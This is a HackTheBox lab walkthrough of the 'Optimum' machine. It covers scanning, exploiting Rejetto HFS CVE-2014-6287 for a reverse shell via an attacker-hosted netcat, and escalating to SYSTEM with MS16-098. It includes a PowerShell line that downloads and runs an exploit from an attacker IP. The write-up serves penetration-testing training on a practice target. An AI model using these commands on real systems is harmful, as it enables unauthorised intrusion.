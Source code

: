 ```yaml
---
layout: post
title: "HackTheBox Walkthrough - Optimum"
author: "Emmet Friel"
categories: HackTheBox
image: htb/optimum/optimum.png
---
```


# Introduction

This box was interesting in the sense it really honed in on the importance of enumeration, gave me a solid foundation on windows privilege escalation that I can refer back to and that you can’t rely on the exploit tools to do all the work for you! Lets get started.

# Reconnaissance & Enumeration

```bash
root@kali:~# nmap -sC -sV -O -p- -oN nmap.nmap 10.10.10.8
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-07 10:53 BST
Nmap scan report for 10.10.10.8
Host is up (0.029s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 128.40 seconds
```
- -sC : scripting scan, equivalent to also writing –script=default
- -sV: service version
- -O  : Operating System version
- -p- : scanning all 65536 ports
- -oN: Output result to a normal text file called nmap.nmap

| ![image]({{site.baseurl}}/assets/img/htb/optimum/hfs_opt.png) |
| :--: |
| *HFS Webpage running on port 80* |

Any webpage running on port 80 I always perform a dirb and nikto scan in the background, so I did just that however a quick search on the service version gave me everything I needed to get access into the system. 

The exploit I used was: <a href="https://www.exploit-db.com/exploits/39161" target="_blank_">Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)</a> which refers to CVE-2014-6287. The vulnerability is 
> “The findMacroMarker function in parserLib.pas in Rejetto HTTP File Server (aks HFS or HttpFileServer) 2.3x before 2.3c allows remote attackers to execute arbitrary programs via a %00 sequence in a search action.” In other words, using the search bar on the website we can execute code server side using the null sequence.

There are now two approaches to exploit the machine: 
1. Execute commands in the search bar on the website using the null byte (%00)
2. Use the exploit script we found through a quick search.

For simplicity, I am going to use the scripting option.

# Shell Access

To use the script there are 3 important variables:

1. Change the IP address to your own: 
```bash
ip_addr = "192.168.44.128" #local IP address
```

2. Change the port which you are going to listen on:
```bash
	local_port = "443" # Local Port number
```

3. Host a webserver serving netcat (nc.exe). I am using SecLists GitHub repo for nc.exe which you can clone from their GitHub page.
```bash
#EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).  
#          You may need to run it multiple times for success!
```

Once I edited the script, I setup my netcat listener, python webserver and then executed the script: ```python 39161.py <target IP> <target port>``` 
Note that it may take a few attempts for the script to work. 

![image]({{site.baseurl}}/assets/img/htb/optimum/opt_terminal.png)

| ![image]({{site.baseurl}}/assets/img/htb/optimum/opt_terminal.png) |
| :--: |
| *Running the attack and having a reverse shell access to the victim machine* |


# Privilege Escalation using Windows Suggester

You can see I am user “kostas” from the terminal. I do not have Admin permissions so it’s time to escalate to root! To do this I used the <a href="https://github.com/AonCyberLabs/Windows-Exploit-Suggester" target="_blank_">Windows Exploit Suggester</a> tool. The tool is really simple and extremely powerful, it compares all the patches on the machine to Microsoft’s patch database and outputs a “suggested” list of exploits. I have seen older tutorials use “Sherlock” instead of “Windows Suggester” but if you have a look at Sherlock’s GitHub, the repo hasn't been updated in 3 years :\ 

To do this, run ```systeminfo``` and then copy and paste the output to a file: ```systeminfo.txt``` in my case 

```windows
C:\Users\kostas\Desktop>systeminfo
```
```bash
root@kali:~/Documents/boxes/optimum# python windows-exploit-suggester.py --update
[*] initiating winsploit version 3.3...
[+] writing to file 2020-04-07-mssb.xls
[*] done
```
```bash
root@kali:~/Documents/boxes/optimum# python windows-exploit-suggester.py --database 2020-04-07-mssb.xls --systeminfo systeminfo.txt --quiet
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 32 hotfix(es) against the 266 potential bulletins(s) with a database of 137 known exploits
[*] there are now 246 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2012 R2 64-bit'
[*] 
[E] MS16-135: Security Update for Windows Kernel-Mode Drivers (3199135) - Important
[E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important
[M] MS16-075: Security Update for Windows SMB Server (3164038) - Important
[E] MS16-074: Security Update for Microsoft Graphics Component (3164036) - Important
[E] MS16-063: Cumulative Security Update for Internet Explorer (3163649) - Critical
[E] MS16-032: Security Update for Secondary Logon to Address Elevation of Privile (3143141) - Important
[M] MS16-016: Security Update for WebDAV to Address Elevation of Privilege (3136041) - Important
[E] MS16-014: Security Update for Microsoft Windows to Address Remote Code Execution (3134228) - Important
[E] MS16-007: Security Update for Microsoft Windows to Address Remote Code Execution (3124901) - Important
[E] MS15-132: Security Update for Microsoft Windows to Address Remote Code Execution (3116162) - Important
[E] MS15-112: Cumulative Security Update for Internet Explorer (3104517) - Critical
[E] MS15-111: Security Update for Windows Kernel to Address Elevation of Privilege (3096447) - Important
[E] MS15-102: Vulnerabilities in Windows Task Management Could Allow Elevation of Privilege (3089657) - Important
[E] MS15-097: Vulnerabilities in Microsoft Graphics Component Could Allow Remote Code Execution (3089656) - Critical
[M] MS15-078: Vulnerability in Microsoft Font Driver Could Allow Remote Code Execution (3079904) - Critical
[E] MS15-052: Vulnerability in Windows Kernel Could Allow Security Feature Bypass (3050514) - Important
[M] MS15-051: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (3057191) - Important
[E] MS15-010: Vulnerabilities in Windows Kernel-Mode Driver Could Allow Remote Code Execution (3036220) - Critical
[E] MS15-001: Vulnerability in Windows Application Compatibility Cache Could Allow Elevation of Privilege (3023266) - Important
[E] MS14-068: Vulnerability in Kerberos Could Allow Elevation of Privilege (3011780) - Critical
[M] MS14-064: Vulnerabilities in Windows OLE Could Allow Remote Code Execution (3011443) - Critical
[M] MS14-060: Vulnerability in Windows OLE Could Allow Remote Code Execution (3000869) - Important
[M] MS14-058: Vulnerabilities in Kernel-Mode Driver Could Allow Remote Code Execution (3000061) - Critical
[E] MS13-101: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (2880430) - Important
[M] MS13-090: Cumulative Security Update of ActiveX Kill Bits (2900986) – Critical
```

The output of windows-exploit-suggester shows a grand collection of exploits to try out so at this stage it’s really trial and error. Note that some attempts caused the machine to crash and so you would have to set up the reverse shell again, nothing major.
After trial and error, MS16-098 got me that nice root shell :)

I placed the exploit on the python webserver, downloaded it from the victims machine and then executed it.

```windows
C:\Users\kostas\Desktop>powershell.exe -c "(New-Object System.Net.WebClient).DownloadFile('http://10.X.X.X/bfill.exe','C:\Users\kostas\Desktop\exploit.exe')
```

```windows
C:\Users\kostas\Desktop>exploit.exe
exploit.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved. 

C:\Users\kostas\Desktop>whoami
whoami
nt authority\system
```